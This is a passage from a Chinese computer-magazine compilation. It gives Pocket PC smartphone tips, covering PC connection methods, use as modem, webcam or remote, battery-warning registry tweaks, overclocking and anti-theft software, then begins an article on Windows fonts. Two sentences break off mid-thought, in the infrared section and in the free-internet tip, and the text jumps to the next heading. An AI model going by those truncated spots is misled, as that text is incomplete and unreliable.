手机连接电脑后，可以方便地上传下载各种影音资料。比如手机摄像头拍摄的照片和影片能下载到电脑中进行进一步处理和应用。另外电脑中的各种JAVA小游戏、背景图片、铃声等也可上传到手机，大大增强手机的娱乐功能。

##### 2. 免费享用网上资源

爱玩手机的朋友都知道，现在可以通过手机自身的上网功能下载各种JAVA小游戏、待机图片、铃声、趣味短信等资源，但是这些下载往往都不是免费的，常常下载一条铃声就要花费好几元，其实如果我们通过电脑向手机传送这些资源，完全可以做到“免费享用”。

##### 3. 提高手机安全性

通过与电脑连接后进行数据同步，手机上的电话簿、短信、个性铃音等宝贵的个人资料都能在电脑上进行备份，一旦出现手机被盗、损坏等意外情况，就不至于因为丢失宝贵资料，而造成无可挽回的损失。

##### 4. 增强手机功能

我们在使用手机写短信、管理电话簿时，常会抱怨手机小键盘带来的不便。在手机与PC连接后，就可以利用PC的全尺寸大键盘，来对手机进行操作了。另外很多手机和电脑连接后能使用专门的软件来修改手机设置，甚至可以通过升级手机内部软件来增强手机功能。

#### 二、电脑手机联姻的具体方法

手机与电脑联姻，“连接”是基础，我们不要把电脑与手机的连接看得太神秘，其实电脑手机联姻是很简单的。目前手机与电脑连接，可以通过如下几种方式：数据线、红外线、蓝牙和WIFI。下面我具体谈谈这几种连接方式的相关情况。

##### 1. 数据线

数据线是最传统的连接方式。绝大多数手机都支持通过数据线连接电脑。要使用数据线联机，硬件上我们只需要购买一根和自己手机匹配的数据线即可。过去数据线接口通常是串口，而现在基本上都是USB接口的，当然有些是“伪USB口”，即物理接口虽是USB，但实际传输速度却只能达到串口的速度。现在市面上手机数据线的品质和种类都很多，兼容性和稳定性也有较大差异，我们一定要小心购买与自己手机匹配的产品。
数据线的使用并不复杂，串口的通常不需要安装驱动程序，连接时选择正确的COM口即可。而USB口的数据线则通常需要安装配套的驱动程序才能连接手机。手机要连接PC进行数据同步的关键是PC上需要安装合适的同步软件，PPC连接PC的关键是PC上需要安装最新版本的ActiveSync，这是连接PC的最基本要求，另外最好还应安装较新版本的Outlook（系统自带的Outlook不行），当然如果你不需要同步联系人什么的，也可以不安装Outlook。要注意安装ActiveSync一定要在PPC连接PC以前，否则PC会出现无法找到PPC驱动而导致连接失败的问题。一旦发生此类情况，解决方法如下：将PPC连接PC，到“设备”中把“未知USB设备”删除，再拔掉PPC插头，安装ActiveSync。PPC再次连接PC，ActiveSync会自动运行联机，如果没有自动运行，则需手工打开连接。

##### 2. 红外连接

红外连接也是手机连接电脑常见的方式。红外线，顾名思义是可见光谱中位于红色光之外的光线，肉眼是看不到这种光线的。利用红外端口通信最大的优势就是方便，无需连线，只需将两设备的红外线装置对正即可传输数据。红外通信使用自己特殊的连接协议，数据传输速度能达到4M/s，比串、并口速度快了不少，而且在有效区域内，可以实现多机动态加入、动态退出连接，让多用户动态建立或终止连接。如果在传输文件时意外中断，在限定时间内排除障碍后，系统会自动建立连接，已传输的文件信息不会丢失，可以实现“断点续传”。
现在很多手机都具备红外接口，而大多数笔记本电脑## 3. 蓝牙

目前有一种无线连接方式：蓝牙，开始逐渐取代红外线，成为手机与电脑连接最流行的方式。蓝牙是一项用于小型、低成本无线解决方案的规范，采用了2.4GHz免费频段，主要是为小型手持设备设计的无线通信标准。和其他无线连接技术相比，更注重能耗的减低和模块体积的小巧，以及不依赖PC端。无论是否有电脑，两个蓝牙设备之间都可以互相通信。“蓝牙”与红外技术相比的主要优势是蓝牙传输不要求“视线传输”，即发送设备与接收设备之间可以存在障碍。而且蓝牙技术支持多向传输，也就是说蓝牙设备可以一对多连接。

现在市场上有部分高端笔记本电脑集成了“蓝牙”模块。而采用各种接口规范（USB、PCMCIA、CF以及SD等）的蓝牙适配器在市场上越来越多了，能够方便地为PC添加蓝牙功能。目前大多数用户都使用USB蓝牙适配器，安装后，要求输入设备名称，建议用不多于八个的英文字母作为设备名称，不要使用中文，否则可能遇到一些兼容性问题。安装蓝牙后，相关程序会自行启动，影响系统运行效率，我们最好在启动项中去掉这些程序，需要时再启动。另外蓝牙设备连接需要输入密码认证，如果觉得每次都要输密码很麻烦，可以分别将对方设定为授权设备即可。使用蓝牙连接时还应注意避开微波炉等干扰设备。

> 小技巧：使用蓝牙同步PPC手机和电脑
>
> - 首先，在电脑中运行蓝牙管理器，找到蓝牙设备对应的COM口，并在ActiveSync中的“连接设置-允许通过COM端口上串行电缆或通过红外线端口建立连接”选择该COM口。
> - 然后，在PPC中点击“开始”→“设置”→“系统选项卡”→“蓝牙设置”选项，对ActiveSync蓝牙设置，请按“开始”配置，点击开始，弹出标题为ActiveSync蓝牙的提示窗口，点击“OK”，跳入蓝牙模式，选中绑定的设备点击“新建”，开始搜索有效范围内的蓝牙设备。
> - 找到电脑后，相互输入PIN码验证通过后，绑定成功。将弹出一个提示窗口，提示蓝牙ActiveSync设定完成。
> - 然后，在PPC中点击“开始”，“ActiveSync” → “工具” → “通过蓝牙连接”，再激活电脑上的ActiveSync即可。

要注意ActiveSync 4.0以前本身不支持直接通过蓝牙端口同步，它是通过蓝牙模块绑定PC上的COM口进行通信的，所以必须要让手机上的ActiveSync知道PC已经具备了蓝牙端口，也就是告诉它手机上的某个COM口已经和蓝牙端口绑定了，这样ActiveSync才会打开这个COM口与PC通过蓝牙同步。不能连接的朋友在PC蓝牙管理器上设置的是“远程服务”中的串口，正确的串口号应该在“本地服务”中。由于蓝牙同步是由PPC先发出请求，ActiveSync在PC上作为服务器接收请求，因此，其串口号对应的是PC上的“本地服务”虚拟串口。反之，通过PC蓝牙虚拟串口去控制手机的软件，如一些PC版的短信收发软件，是作为客户机（远端）在工作，这时短信收发软件应该对应“远端服务”的串口号。

##### 4. WIFI

目前部分PPC手机还支持WIFI无线连接技术。WIFI一般遵循802.11b/g标准，带宽为11-54Mbps，工作频率为2.4GHz，作用距离在室外可以达到100米左右，无论是带宽还是有效距离都比“蓝牙”要大很多。使用WIFI连接电脑后，我们能享受更多的乐趣，比如实现移动电视和网络电话功能，但可惜由于标准之争，目前国内市场上还不允许带WIFI功能的手机上市。因此关于手机WIFI连接的相关情况这里就不详谈了。

最后提一下，除了数据线，通过后面几种无线连接方式，手机与手机之间，或者手机与掌上电脑之间也能进行连接，同样可以方便地实现资料交换等功能。

#### 三、用电脑管理PPC手机

因为出色的多媒体功能和丰富的应用软件，SmartPhone手机越来越受到大家的关注，但是在使用中通过电脑管理短信和联系人资料时，却显得有些繁琐。如果通过Microsoft ActiveSync同步，要想获得这些资料，就必须在电脑里安装Microsoft Outlook。如果你不喜欢微软这种霸道的做法，使用其他软件也可以，比如《智能手机工作室》，如图28所示。


该软件是一款专为SmartPhone手机开发的管理工具，具有短信和联系人管理以及系统监视和管理功能。需要把COMMMAN这个程序文件拷到ET980的储存卡里，运行该软件，将Smart或PPC Phone手机和电脑正确连接（如图29所示），当该程序界面右下角的状态栏显示“移动设备已连接”后，就可以使用了。

> 小技巧：让你的PPC手机“免费”上网
>
> 很多朋友使用PPC智能手机的朋友都采用GPRS连接上网，不过网速较低，一般最高也就30-35K左右，而且GPRS按流量收费，经济上非常不划算。其实如果你身边有可以上网的台式机或笔记本，我们就可以让PPC手机与其共享，从而达到“免费”上网的目的。这样你也不必与

### 第十一讲 把PPC手机作为PC外设

PPC手机与电脑联姻后，不仅可以充分发挥手机功能，而且可以成为电脑的外设，进一步做到物尽其用，还能够让电脑使用更方便，比如利用手机的无线数据功能随时随地上网、收发邮件、即时聊天、收发传真等。手机还可以作为闪存盘传递资料，电脑甚至还能利用PPC手机的摄像头，作为外置摄像头使用。或者用蓝牙手机作为电脑的遥控器使用。

#### 一、把PPC作为电脑的无线MODEM

PPC智能手机可以使用数据线、红外线、蓝牙等连接途径与电脑相连，成为电脑的无线MODEM，这里分别加以介绍。

1.  数据线
    驱动安装的过程一般是：先用数据线连接电脑与笔记本电脑，笔记本电脑会检测到新的USB设备，只要根据系统提示一步步安装就可以了，记住驱动程序通常在随数据线附送的光盘当中。安装完成后，系统会自动生成一个USB MODEM。接下来我们使用这个USB MODEM建立一个拨号连接，在“控制面板” → “网络连接” 下选择“新建连接向导”，然后依照系统提示依次执行就可以了，电话号码填“*99#”，其他用户名密码之类的都不要填，过程很简单。注意在额外的初始化命令中填入“at+cgdcont=1, "ip","cmwap"（或"cmnet"）”。

2.  红外线
    首先打开笔记本电脑和手机的红外线接口，将两个接口相对，这时笔记本电脑会自动识别出有一个红外线设备连接到笔记本电脑。然后进入控制面板的“调制解调器”中，添加一个“标准33.6k Modem”，注意选择红外端口。再新建一个拨号连接，选择刚才添加的MODEM拨号，点击下一步，在电话号码的框内输入“*99#”。用户名、密码留空就可以了，另外还要注意将手机上GPRS选项中的APN（即“接入点名称”）设置为CMNET（CMWAP可以通过代理上，后面会详谈）。借助GPRS，笔记本电脑就可以成为名副其实的移动交流平台，为你增添无穷的乐趣。

3.  蓝牙
    笔记本电脑与手机之间通过蓝牙相连后进行上网操作则更加方便，既不需要一根数据线将手机“栓”在笔记本电脑上，也不需要将二者的红外窗口严格对准，可以将手机随意挂在腰间或放在包中。我们首先开启手机蓝牙功能，并设置为可接收状态。然后在手机端搜索新的蓝牙设备，发现电脑上的蓝牙接口后相互进行配对，成功后二者就进行了绑定。PC上的蓝牙设备安装好驱动程序后，会自动在拨号网络建立三个拨号连接，其中一个是Bluetooth Dial-up Connection，双击该图标，在弹出的窗口中将“用户名”和“密码”留空，“拨号”输入“*99*1#”（具体号码可咨询当地移动运营商），便完成了无线拨号设置，点击“拨号”按钮，几秒内即可接入GPRS网。

#### 二、把PPC手机变PC摄像头

现在手机内置摄像头几乎已经是标配了，你想到过利用其来作为电脑摄像头吗？这样不仅可以省下购买摄像头的费用，而且可以带给我们方便，像在外地出差时，用手机配合笔记本电脑就能与亲朋进行视频交流，是不是很酷呢？尽管有个别手机能直接当作电脑摄像头用，但大多数手机还是不行的。不过如果你使用带摄像头的智能手机就可以通过安装专门的软件来实现成为电脑摄像头的愿望。要用带摄像头的智能手机作为电脑摄像头，有两个重要步骤，首先要实现在电脑上能够看到手机上显示的画面，对于SmartPhone和PocketPC手机而言，建议大家使用“Pocket控制器”这款软件（如图30所示），它允许你直接地从桌面计算机上操作和控制任何基于Windows CE系统的设备，当然同时也能在电脑上看到PPC上显示的任何画面。这款软件需要在电脑和PPC上分别安装，另外注意要先安装并运行ActiveSync 3.7以上版本。安装完成后点击“连接”，在电脑上就能看到PPC手机上显示的画面了，当然也包括在手机启动照相程序后，摄像头所拍摄的画面。除了这款软件外，在SmartPhone手机和PocketPC手机上还有其他一些类似功能的软件，比如CeRDisp（手机端软件）和cerhost配合也能在电脑上实时显示手机画面，使用比较简单，这里就不详细介绍了。
当我们实现在电脑上看到智能手机显示的画面后，接下来要做的重要工作就是如何将此画面作为“摄像头”画面，让应用程序能够利用。这就需要用到一款名为“SoftCam”的虚拟摄像头软件，这是一款相当优秀的“软摄像机”，它能完美模拟成为“真实”摄像机，并骗过大部分视频聊天软件，利用它我们可以轻易将手机摄像头拍出的实时影像再发送出去。

最后提一下用“MobileHomeCam”这款软件能在手机上看到PC上的画面，这样就能用手机通过GPRS网络对连接在PC上的摄像头所拍摄画面进行远程监控了。MobileHomeCam支持SmartPhone手机和PocketPC手机，程序分为PC端和手机端两部分，分别安装后才能正常使用。不过要使用这款软件，系统中必须首先安装“.NET Framework 1.1”、“NET Compact Framework 1.0”，如果系统不是Windows XP/2003，还需安装DirectX 8.1以上版本。该软件缺省将使用1024端口，因此如果开启了防火墙，请将该端口开放。

#### 三、把PPC作为PC的无线遥控器

PPC手机能实现的功能非常多，像MP3/MP4播放、玩游戏、上QQ等当然不在话下，除此之外，还有一些功能绝对是超乎你的想象，比如作为万能的家电遥控器。我们只需在掌上电脑上安装一款名为TVremote的软件（其他像NoviiRemote、VITO Remote等软件功能也是类似的），就可以让其成为遥控电器的工具，内置各种知名品牌的遥控器，TV、VCD、DVD、AUDIO等无所不包。没有的品牌通过“对传学习”也可以马上使用。以后去公共场所、住旅馆，带上这么一个“万能遥控器”，就再不用麻烦服务生要遥控器了，也更加清洁卫生。

大家知道用部分蓝牙手机可以遥控PC，其实使用PPC也可以无线操作你的PC。首先请去http://www.codeproject.com/netcf/TabletPC.asp，下载相关软件，压缩包解开后有两个文件，把Client端放到PPC上去，Server端在PC上运行，如果Server端不能运行，那么请先安装微软的“.NET Framework 1.1”。

把PPC和PC通过ActiveSync连接起来，注意在ActiveSync中“工具”→“选项”，把“连接”一项要设为“单位”，并关掉PC上的防火墙。接下来从PPC上启动Client端，点Connect，IP地址写PC的IP地址，如果顺利连接后，你的PPC屏幕就成了触控板。可以直接使用导航按钮的上下来滚动页面，点击屏幕，就相当于按下了鼠标键。同时在Client端中，选择option→Map Hold to Action button，这个功能是将导航按钮的中键映射成Enter键，或者Mouse左键按下不放。另外如果PC上安装了RemotelyAnywhere，就可以在任何能上网的设备上（包括PPC），只要有一个支持Java的浏览器，你就可以轻松控制远端电脑了。

### 第十二讲 PPC手机其他应用精要

PPC手机的使用技巧非常多，很难在一篇文章中包含殆尽，在最后一讲中，我将一些比较重要，但没有列在前面应用类别中的其他一些应用技巧奉献给大家。

#### 一、PPC 2003也能实现一键横屏

大家知道，从PPC 2003SE开始，PPC具备了横屏显示的功能，这样能将分辨率变为320×240，扩展了横向显示范围，方便我们进行网页浏览等操作。但是现在还有不少朋友在使用PPC 2003的产品，能不能也实现横屏显示呢？答案是肯定的。要达到此目的，关键是要找到一款名为“VIRTUAL Display”的软件。下载并安装后，请按下面的步骤进行设置：点击“开始”→“设置”→“按键”，把某一个键设为VD Previous，单击OK。再点击“开始”→“程序”→“VIRTUAL Display”→“VD Settings”，选VD Settings项，然后选Landscape Right-Handed（把屏幕设置为横屏），如图31所示。点击OK，机器会自动重启，并变为横屏显示，这时再进入上述“VD Settings”设置中，选择Normal（设置成正常显示屏），完成后，你试试按一下刚才设置好的按键，看看是不是可以不用一键横屏了，呵呵，感觉真的很爽。


#### 二、巧让PPC手机阅读任何电子书

使用PPC手机的朋友，很多都喜欢用来看电子书，尽管现在大多数格式的电子书都能在PPC上找到相应的软件开启，但是仍有一些电子书在PPC上是没有办法阅读的。比如超星教科书、WDL电子书等，另外像PDF、CHM等比较复杂的电子书，在PPC上开启后通常存在格式和中文等方面的兼容问题。其实我们可以使用“Repligo”这款软件来解决这些问题，达到在PPC上“原汁原味”地阅读任何格式电子图书的目的。Repligo包括在台式电脑上运行的RepliGo Desktop和在PPC上运行的RepliGo Viewer两个部分。RepliGo Viewer是一个全能的阅读工具，而RepliGo Desktop则是RepliGo Viewer的桌面端辅助工具。作为一款全能文档转换阅读软件，Repligo采用了独特的“虚拟打印”技术，从而绕过不同电子书的格式问题，支持几乎所有文档在PPC上阅读，让我们不再有乱码、排版格式、图片显示等问题担忧，而且运行速度极快，基本不存在等待时间。在安装结束后，RepliGo Desktop会在系统中生成一台RepliGo打印机，任何类型的文件，只要选择“打印 - 以RepliGo打印机印出”，就可变成RepliGo格式文件，将此文件放到PPC上后，我们就可以用RepliGo Viewer来阅读了。是不是很爽呢？

#### 三、PPC手机超频，XCPUScalar帮你忙

台式机甚至笔记本电脑超频早已不是什么新鲜话题了。其实掌上电脑也是可以超频的。

掌上电脑超频有两种方式：一是来“硬”的，就是用电烙铁之类的工具改动主板上的相关电路，提升CPU频率，但这样做风险太大，而且存在很多副作用，不推荐大家冒险；二是来“软”的，就是使用专门改频软件，这是相对比较稳妥的方法。

XCPUScalar就是一款专门针对目前掌上电脑广泛使用的Intel XScale系列处理器而开发的“改频”软件，注意不是“超频”软件，因为使用它不仅可以超频，还可以降频，这对于延长掌上电脑电池使用时间很有帮助，如图32所示。


XCPUScalar 2004对于PXA250 XScale处理器的调节上限为500MHz，PXA255, PXA261-263 XScale处理器可调到530MHz，总线频率上限也可达到265MHz，而PXA270处理器上限则达到741MHz。

当我们提高了总线频率后，带宽的增加对于所有应用程序，特别是游戏和多媒体应用有着很大的性能提升。例如，我用XCPUScalar将我的MIO 168调节到最高速度后，播放视频文件的性能提升了将近35%。而且这款软件还可以设定为根据CPU负载自动调节频率，当你运行大程序时，CPU频率会自动向上提升，而当你的PPC空闲时，XCPUScalar会自动降低频率，从而使系统性能和电池使用寿命得到最合理的平衡。

#### 四、解决PPC无法通过屏幕调整的故障

在使用PPC手机时，可能因为种种问题而硬启动机器，这时开机后首先会出现一个让你调整屏幕的界面，一般来说只要按提示正确点击屏幕上十字中心点就可以完成调整（如图33所示），正常开机。但是也可能因为某些原因出现无法完成调整，从而导致PPC无法使用的大问题。遇到这种问题时不用急，可以用下面介绍的两种办法尝试解决：


一是可以试着在出现的十字上划圆圈，直到十字跳至下一步，再继续划圈，划圈时得有些耐心，多次反复后，一般能完成调整屏幕任务。

还有一个更有效的方法是将PPC与电脑连接，在电脑上点击“移动设备”，打开PPC的“Windows/启动”文件夹，删除一个“欢迎使用”的快捷方式，再软启动即可跳过调整屏幕的步骤而正常开机。如果启动后点击屏幕没有反应，这时可以通过在电源开启的同时按住确认键，唤出调整屏幕画面，调整后一切就OK了。

PPC无法完成调整屏幕任务，通常是因为屏幕出现了硬件问题，如果在保修期内就去换一个，在保修期外的话，就把机器拆了，把触摸屏适当移动一下位置。因为在LCD外面有一层是电容式的触摸识别系统，就是我们用手写笔直接接触的这一层，如果位移较大的话，触摸屏位置与LCD所显示的就会不一致。

#### 五、PPC上随身银行的安装与使用

和普通软件一样，在PC上直接运行CMBPB安装程序，按照向导完成操作，掌上银行就在掌上电脑上安装成功了，但要正常使用关键是要进行证书申请或证书恢复。

如果已经拥有PC机上的网上个人银行专业版一卡通证书，把PC上的网上个人银行专业版的一卡通证书备份出来。复制到掌上电脑上的某个文件夹中。然后将掌上电脑连接上Internet，进入掌上银行。在登录界面选择证书管理（或在系统启动的向导中选择证书恢复）。然后选择证书恢复，找到证书文件，证书恢复成功，就可以使用掌上银行了。

你也可以直接在掌上电脑上申请个人数字证书，申请流程与PC机的网上个人银行专业版完全一致：先到银行柜台申请数字证书，得到一个银行打印的密码信封，内有授权码。将掌上电脑连接Internet，进入掌上银行。在登录界面中选择证书管理（或在系统启动的向导中选择证书启用）。选择证书启用，根据要求录入资料，并输入密码信封中的授权码，提交成功后等待一个小时后登录即可。

#### 六、使用PocketPC进行传真收发

使用KSE TureFax软件，可以把PocketPC变成一部传真机，只要有电话，就可以随时随地地发放和接收传真。支持用CF Modem卡和红外线手机来收发传真。它的使用和设置也非常地简单。

安装完成后，重启，再运行KSE TureFax，点击左下角的New按钮，建立新传真，在出现的页面中写入对方接收传真人的姓名，点击右侧的目录图标从联系人中添加对方的传真号码即可。不过要注意，如果要使用手机收发传真，你的手机号必须开通传真功能。除了KSE TrueFax，PPC上还有bFAX等其他传真软件，使用方法也是类似的。

#### 七、PPC手机应如何节省电能

PPC手机的电力不足是一个比较大的问题，我们使用时一定要注意节省电能。首先请注意屏幕亮度的设置，PPC上的亮度设置类似于笔记本电脑上面的LCD亮度设置，系统会根据你电源的类型来调节屏幕亮度，亮度高低和电池使用时间有直接关系。如果你觉得默认设置不能很好地为你的机器工作的话，可以进入“亮度”选项中进行手动调节，使用电池时可以将亮度降到最低水平。

Intel的移动型CPU都会有一个自动降频的功能，这在掌上电脑的CPU里也同样具备。很多PPC在进入“电源设置”后，选择处理器，我们可以看到在这里设置CPU运行的方式，选择“自动”，CPU就能根据当前的需求量来自动调节频率以达到节电的目的。如果你的PPC没有内置此功能，则可以安装第三方的CPU频率调节软件，通过给CPU降频来节省电能。

PPC手机在电能不足会频繁出现低电压警告，因此屏蔽PPC的低电压警告，也很有实用价值，除了使用专门的软件外，可以用手工修改注册表来屏蔽低电警告，具体如下：

```
编辑一个以下内容的txt文件，然后放入PPC，再用TRE之类的注册表工具软件导入即可。

[HKEY_CURRENT_USER\ControlPanel\Notifications\{A877D663-239C-47a7-9304-0D347F580408}]
"Duration"=dword:00000000
"Options"=dword:00000000
@="低电警告"
```

#### 八、让你的PPC手机具有“防盗”功能

现在商务通有一个所谓“隐形”手机的广告天天在电视上播放，说什么具备十多项特殊功能，这款手机的售价高达3000多元，其实如果你使用PPC智能手机的话，完全可以用“手机保护神”这款软件来实现类似功能。它拥有强大的短信控制功能，以解除手机忘记在家时的痛苦，还可以在手机插入非法的SIM卡后发出警告短信，从而保护你的隐私和为破案得到更多的线索。其操作和设置十分简单，在界面上也一目了然。

手机保护神平时无须运行，当你设置好远程密码后，当发送远程密码给你的手机，手机保护神就会无声无息地启动，进入保护模式。此外，当手机保护神在设置时和换机后，进行报警模式下，也会打开保护模式，以方便测试和控制。在保护模式下，可以通过短信发送命令来远程控制手机，比如查询通话历史、重启机器、发送SIM卡联系人等。

安装时运行一次手机保护神即可实现接收控件的自动安装，请将软件放在内存中，放在卡上如果卡上被取出，保护功能将失效，最好是能刷到ROM中。

#### 九、PPC手机的其他“另类”用途

- 1. 过把“神笔”瘾

“SketchArtist”这款软件可以将PPC手机变成一个手工画像的工具。尽管现在大多数PPC手机都有摄像头，但用这款软件来手工画像还是很有意思的，如图34所示。如果你是警察的话，用来绘制犯罪嫌疑人头像还是很有意义的。


- 2. 随身看小人书

想回味一下儿时看小人书的快乐吗？用ComicGURU这款软件，可将漫画图片转成PPC专用的漫画文件，互联网上也有不少现成的连环画可供下载。其他还有“三只耳”等软件也可用来看小人书，但支持的图书文件资源就比较缺乏了。

- 3. 成为掌中气象台

推荐大家使用PocketWeather这款软件，支持CMWAP接入，能选择的城市也很多（包括很多县级小城市），安装后能在你PPC手机的桌面上显示选择城市未来数天的天气预报，同时还能显示出包括气压和能见度在内的即时天气信息。甚至还能下载卫星云图。完全将你的PPC手机变成掌中气象台了，如图35和图36所示。


从前面讲述的内容中大家可以充分体会到，PPC上通过软件增强手机功能的特点，其他还有GPS导航、语音控制及拨号等应用，这里就不一一详谈了，请大家参看本合订本的相关文章。

## 看上去更美：Windows 系统字体完全攻略

文 / 彭文波

文字，是人类思想感情交流的必然产物。随着人类文明的进步，它由简单而复杂，逐步形成了科学的完美而规范化的程式。在计算机技术突飞猛进的今天，文字的美化随着人类文明的进步跃居为人们研究的重要课题。在使用 Windows 系统的过程中，谁不想有一个漂亮的系统，甚至能设计一个属于自己的个性化字体？为了做到这一点，我们四处搜罗漂亮图片，个性化主题，甚至不惜用绘图软件苦心雕琢。本专题将重点突出字体管理，从系统字体的美化入手，让用户在追求个性化的过程中得到美的享受。

### 一、字体基础知识

字体蕴藏着很多玄机，首先，我们需要了解一些系统字体的基础名词。

#### 1. 字体与编码

字体就是一个图形，例如，计算机要想显示“风”这个字，必需有“风”这个字的图形才能显示出来。在许多打印文档中，经常会提到位图字体和矢量字体，其实，这只是生成字体的不同的实现方式。在漫长的历史发展中，中国字体大致可分为以下六体：古文、篆书、隶书、草书、正书、行书。现代汉字设计，基本都是按以上六种和印刷体中的老宋、仿宋、黑体等体例，进行演变加工得来的。

位图字体和矢量字体的比较。位图字体是通过 0-1 矩阵来表示字体的图形的，而矢量字体是通过字体图形各部分的相对位置关系而产生的数学函数来表示它的图形的。位图字体的缺点是由它的实现方式造成的，当一个位图字体被放大后，0-1 矩阵产生的字体就会产生很大的锯齿问题；而矢量字体则不然，因为它是由字体各部分的相对关系生成的，不管它怎么放大，都不会产生锯齿问题，因此在 Coredraw、Flash 等软件中得到了广泛应用，而且特别适合做高质量的排版。

字体与编码。计算机内部传递“字”是通过传递“字”的编码来实现通讯的，例如文档编辑器要知道用户输入了一个“风”，那么它必须知道这个“风”字的编码，才可以在屏幕上显示出来。编码有很多，对于我们的中文来说，有 GB2312，GBK，GB18030，还有国际通用的 Unicode。在 Linux 等操作系统下，经常会出现乱码问题，这就是由于不能正确识别编码而造成的。

### 2. Windows 字体常识

顾名思义，Windows 字体就是安装在 Windows 系统中的字体，它可分为光栅字体 (.fon) 和可缩放字体。也可以分为屏幕字体、打印字体以及打印和屏幕都适用的字体，用户经常接触的 TrueType (.ttf) 字体就是打印和屏幕都适用的可缩放的字体。在 Windows 操作系统中，打开“控制面板”，双击“字体”项，就打开了“字体”管理程序，其中，蓝色的“TT”图标表示 TrueType 字体，绿色的“TT”图标表示 TrueType 合成字体，而红色的“A”图标表示屏幕显示字体。点击标准按钮中的“相似性”图标，则可以根据“极相似”、“相似”、“不相似”等特征进行字体归类。另外，还可以查看字体文件的 Panose 信息（字体映射信息），通过它，可以搜集字体的特征（如有无衬线、粗体或斜体等），从而方便地查看程序相似性以进行比较。如图1所示。


在系统安装的字体文件夹中，双击某个字体文件，就会弹出该字体的属性窗口，除了显示了该字体的名称、大小、版本等基本信息以外，还分别列出了英文26个字母与阿拉伯数字的字体样式。如果要安装新字体，点击“文件”菜单下的“安装新字体”，在弹出的“添加字体”窗口中浏览新字体所在文件夹，该字体将自动出现在“字体列表”，点击“确定”后该字体就会被立即安装至系统中。另外，也可以将一些外来字体文件放在其他盘上，并在 Fonts 目录下建立快捷方式，这样 Windows 会自动在注册表中进行注册，使字体能够用于其他应用程序。

在 Windows 系统中，删除部分字体文件也可以释放硬盘空间，但删除时也有一些技巧。首先，中文字体一般都有好几兆，甚至多达几十兆，用户可以首先删除一些确定无用的中文字体，但不要删除宋体，因为它是系统缺省的中文字体。其次，扩展名为 FON 的屏幕字体文件也不要随便删除，否则一些对话框中的文字会变成乱码；扩展名为 SYS 的字体为系统字体，系统提示信息和图标描述性文字中要用到这些字体，删除后可能会使系统崩溃。

## 二、内部挖潜：字体美化的 N 种技巧

通过上面的基础知识讲解，我们对字体应该有了一定的感性认识。在平时的字体设置中，结合这些知识的运用并略施技巧，就可以得到意想不到的效果。下面，我们从视觉感受等方面来归纳一些常见的字体美化技巧。

#### 1. 巧妙设置，让字体显示无误

Photoshop 是一个功能非常强大的图像处理软件，但很多时候，有些特殊字体文件在软件中可能无法正确显示。遇到这种情况时，可以采用以下方法进行设置。首先运行 Photoshop 应用程序，从其弹出的程序编辑界面中单击“编辑”菜单项，在随后出现的下拉菜单中单击“预置”命令，再从下级菜单中执行“常规”命令，打开参数设置对话框；然后，在该参数设置对话框的“选项”设置项处，检查“显示英文字体名称”项是否处于选中状态，如果已经被选中，建议将其取消，这样特殊字体文件就能正确显示在字体列表框中了。如图2所示。


#### 2. 略施妙计，增强视觉冲击力

在浏览网页的时候，经常需要根据视觉感受进行字体调节。以 IE 浏览器为例，单击“查看”菜单项下面的“文字大小”命令，就可以对网页字体进行放大或缩小。此外，在浏览小字体网页时，只需先用鼠标选中目标网页，之后按下键盘上的 Ctrl 功能键，同时对鼠标中间的轮子进行滚动操作，网页字体文字就会不断放大或缩小。 在浏览窗口中，文字字体的边缘位置处经常会有锯齿现象，事实上，我们完全可以借助 Windows 系统力量来改善显示效果。首先，用鼠标右键单击 Windows 系统桌面的空白位置处，从随后出现的右键菜单中单击“属性”命令，打开系统的显示属性设置窗口。其次，单击该窗口中的“外观”选项卡，并在对应的选项设置界面中单击“效果”按钮，打开效果设置对话框。现在，选中该设置对话框中的“使用下列方式使屏幕字体的边缘平滑”复选项，同时单击该选项下面的下拉按钮，从弹出的下拉列表中选中“清晰”项目即可，这样文字字体的显示效果将更加平滑，尤其是英文字体。如图3所示。


#### 3. 一库多用，合理利用字体资源

现在，在同一台电脑上安装多个 Windows 操作系统的情况十分常见，但字库文件比较大，即使所有的 Windows 安装后，系统中也仅有几种字库可供选用。如果要安装一些漂亮的字库就显得捉襟见肘了。下面的方法可以让多个 Windows 操作系统共用一套 TrueType 字库，具体步骤如下：

- 1. 将 TrueType 字库文件拷贝到硬盘某一文件夹下，如 E:\Fonts。
- 2. 启动资源管理器，进入 E:\Fonts，选中所有 TrueType 字库文件。
- 3. 打开“控制面板”下的“字体”图标，打开字体文件夹；同时，选中 E:\Fonts 文件夹下的所有字库文件，在 Windows 字体文件夹下创建快捷方式。对于其他 Windows 系统，启动后进行同样的操作即可共享相同的字库。

#### 4. 原汁原味，保持字体显示效果

在 Word 等文件中，如果使用了特殊字体的显示效果，但在没有安装对应字体的电脑浏览时，特殊字体就会被缺省字体所替代，显示效果可能会大打折扣，很容易出现字体大小不一致的情况。那么，如何确保包含特殊字体的文档能保持原汁原味的效果呢？方法如下：

- 1. 启动 Word 2000 应用程序，并用该程序打开包含有特殊字体的目标文档。
- 2. 在文档编辑界面中，单击菜单栏中的“工具”菜单项，从其后弹出的下拉菜单中单击“选项”项目，进入目标文档的选项设置窗口。
- 3. 单击该设置窗口中的“保存”选项卡，检查该界面中的“嵌入 TrueType 字体”项目，看“只嵌入所用字符”项是否处于选中状态，如果没有选中，建议选中此选项并保存。这样，即使包含有特殊字体的文档在其他计算机中打开，显示效果也不会改变。如图4所示。


#### 5. 简单方便，巧用字体设计标志

在 Word 等文档的编辑过程中，有时需要做一些标志符，例如停车场标志、禁止吸烟标志等。在Windows中，利用一些特定的字体可以轻松实现，具体步骤如下。

- 第1步：启动Word，设置好页面属性。单击菜单“插入”→“符号”，在“字体”下拉框中选择“Webdings”，在中间的符号区就可发现各种各样的标志。例如，选定飞机的符号，单击“插入”，最后按“关闭”按钮。
- 第2步：在文档中选定插入的标志，调整其大小颜色等，将字号设置为200以上，然后在标志下面输入说明文字，并调整其字体、颜色及大小等。
- 第3步：在“字体”下拉框中选择不同的字体，如Wingdings、Wingdings 2、Wingdings 3等字体，还有更多有趣的符号。

在字体使用的过程中，需要注意的是：有一些第三方的字库是需要驱动程序的，如方正字体、PostScript字体等等，这些字库安装时就需要驱动程序了，否则会造成安装后不能使用的情况，必要时可以查看相应的说明文件。

### 三、如虎添翼：“秘密武器”助力字体管理

随着字体应用日益增多，现在出现了许多实用的字体管理软件。通过这些“秘密武器”，可以大大提高工作效率，达到赏心悦目的效果。

#### 1. 风格独具：实用的字体管理工具

